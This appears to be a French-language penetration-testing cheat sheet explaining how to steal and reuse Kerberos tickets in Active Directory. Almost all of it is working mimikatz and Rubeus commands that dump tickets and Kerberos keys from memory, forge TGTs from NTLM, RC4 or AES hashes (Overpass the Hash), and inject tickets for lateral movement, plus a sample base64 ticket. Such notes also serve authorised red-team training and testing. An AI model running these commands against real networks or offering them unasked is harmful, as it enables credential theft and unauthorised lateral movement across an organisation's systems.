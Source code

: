```yaml
---
public: true # set to true to make the article publishable
---
```


## Principe
Voler / extraire un ticket kerberos et le réutiliser
- s'il s'agit d'un TGT, on pourra demander de nouveaux TGS
- s'il s'agit d'un TGS, on pourra l'utiliser pour communiquer avec le service cible.

Pour collecter les tickets Kerberos, on utilisera soit mimikatz, soit rubeus localement.


## Collecter des tickets Kerberos

### Mimikatz

```
# crée un fichier .kirbi par ticket exporté
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus

```
# Affiche dans la console la encodée en base 64 des tickets kirbi
Rubeus.exe dump /nowrap
```

## Utiliser des tickets

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

## Créer ses propres tickets
Cette technique s'appelle **OverPass the Hash** ou **Pass The Key**
Prérequis : disposer d'un Hash de mot de passe (RC4_HMAC, AES256_CTS_HMAC_SHA1, etc.)

### Extraire les clé Kerberos

```
# récupération des clés AES256_HMAC et RC4_HMA
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```

### Pass the Key (OverPass the Hash)

Permet de demander un TGT à partir d'un hash
#### Mimikatz

Nécessite d'être administrateur local

```
# crée un processus cmd.exe ayant en mémoire le TGT de MYUSER 
mimikatz.exe privilege::debug "sekurlsa::pth /domain:domain.local /user:MYUSER /ntlm:<THE_HASH>"
```

#### Rubeus

Ne nécessite pas d'être administrateur local :)

```
# affiche la version encodée en b64 du kirbi
Rubeus.exe  asktgt /domain:domain.local /user:MYUSER /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```


## Pass The Ticket

Utiliser les tickets pour réaliser des mouvements latéraux.

### Rubeus 
```
# Sans ticket préalable : 
# réalise à la fois le PassTheKey et le Pass The Ticket
Rubeus.exe asktgt /domain:domain.local /user:MYUSER /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# Importation depuis un ticket.kirbi
Rubeus.exe ptt /ticket:ticket.kirbi

# PTT depuis un ticket encodé en base 64 (récupéré de rubeus OPtH ou encodé à la main)
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

### Encoder manuellement un kirbi en base 64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))
```

## Resources
Présentation parlant de PTT et de Golden Tickets (par Benjamin DELPY)
https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it